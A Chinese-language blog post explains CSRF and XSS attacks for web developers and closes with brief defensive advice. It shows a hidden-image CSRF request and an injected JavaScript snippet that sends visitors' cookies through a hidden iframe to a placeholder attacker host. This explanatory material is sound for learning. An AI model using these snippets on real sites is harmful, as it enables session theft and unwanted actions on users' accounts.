 ```yaml
---
layout: post
title:  CSRF 和 XSS
categories: 随想
---
```



最近在做一个网站，因爲涉及到比较重要的账号，我一直战战兢兢，生怕一个不小心就搞出问题了。好在，rails 在安全方面所做的努力比我做的多得多。

说到网络攻击，最常见到的两个词就是 CSRF 和 XSS。这是比较常见，也比较简单的攻击了。只要网站的设计者缺少这方面的常识，就能轻易攻击。不过现在的网站框架都会加上这方面的防护了吧？

不过，我还是想做个简短的笔记，来回忆这几天的想法。

### 什麽是 CSRF
Crossing Site Request Forgery，跨站请求僞造。是一种利用 Cookies 进行攻击的方式。

在解释 CSRF 前，我们先来了解一下 Cookies 和 Sessions。由于 HTTP 的无状态机制，任意两个网页之间都是无关联的。爲了让它们产生关联，诞生了 sessions 和 cookies。当我们打开网站时，都是一个会话(sessions)，浏览器会临时保存这个 sessions，服务器靠着 sessions 来识别衆多用户中谁是谁，正因爲 浏览器 保存着 sessions，服务器才有能力辨识，当前访问的用户是 A 不是 B。浏览器被关闭后，就会消去 sessions。而 cookies 是保存得更久一点的方法，即使浏览器关掉后，也会保留一段时间。

大坏蛋就利用这两个机制，发起了 CSRF。

举个简单的例子。小明在 A 网站（http://A.com）登录后，爲了保证访问下一个页面时，服务器知道他是小明，浏览器里保存了 Cookies，当访问该网站的下一个页面是，就会连同 Cookies 一同发出。之后小明发表了一篇 id 爲 3 的论文。大坏蛋的 B 网站里，有一张图片是这样的。

```js
<img src='https://A/delete?id=3' width='0' height='0' />
```
这段代码表示，在网页上显示长宽爲 0 的图片。虽然长宽爲 0，小明看不到，但浏览器却能看到，它会尝试访问 A 网站，并执行删除操作，将 id 爲 3 的文章删了。

如果是其它人的浏览器，访问了也就访问了，他们的浏览器访问 https://A/delete?id=3之后，并没有多大影响，因爲他们的浏览器里没有 cookies，没有登录，拒决了访问。

但对小明而言，这就是大问题了。小明的浏览器会访问 https://A/delete?id=3，然后将 A 网站的 Cookies 也一併伟过去。这个请求被A 网站的服备器收到，它们验证 Cookies，也没问题，是小明本人发过来的，那就执行删除操作吧。

于是，小明在不明不白的情况下，将自己发表在 A 网站上的文章删除了。

CSRF 是利用了用户对浏览器的信任，进行了攻击。XSS 和 CSRF 很像，但利用的是用户的另一个弱点。

### 什麽是XSS
和上面的方法很相似，攻击者在通过代码注入的形式，将攻击代码写入网页。

但它并非进行 CSRF 攻击，而是通过 JS 代码，获取打开网页的用户 cookies。

还是个简单的例子。

小明吸取了教训，在登录其它网站前，会登出 A 网站的用户，只有在访问 A 网站时，才会登录。

然而攻击者 小坏蛋 在 A 网站发表了一篇文章，然后在文章里注入

```js
// 用 <script type="text/javascript"></script> 包起来放在文章中
(function(window, document) {
    var cookies = document.cookie;
    var xssURIBase = "http://小坏蛋的IP/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    document.body.appendChild(hideFrame);
})(window, document);
```
明面上，这篇文章没什麽问题，因爲 iframe 被隐藏了。但只要有人点开，就会触发上面的代码，将 cookies 发送到小坏蛋的网站。小坏蛋就获得了其他人的身份，大摇大摆的删除文章了。

与 CSRF 不同，这一次，小明并没有上不正规的网站，他浏览的是正规的 A 的网站，却依旧遭到了攻击。这一次，攻击的是 小明 对网站的信任。

所以，有些时候，我们不能将用户受到网络攻击，归到他们不注重自身安全（虽然很大一部分时间的确是这样的）。用户更多时候，是没有能力保证安全的，即使再注意，不上小网站，也会遭到 XSS 攻击。

因此在设计一个系统，一个网站时，我们要加强系统本身的抗打击能力。比如对付 CSRF，就验证访问源，使用 JWT 替代 cookies；对付 XSS，用过滤，警惕自己的用户。

道高一尺，魔高一丈。最近看了关于网络安全方面的文章，觉得自己还有很长的路要走。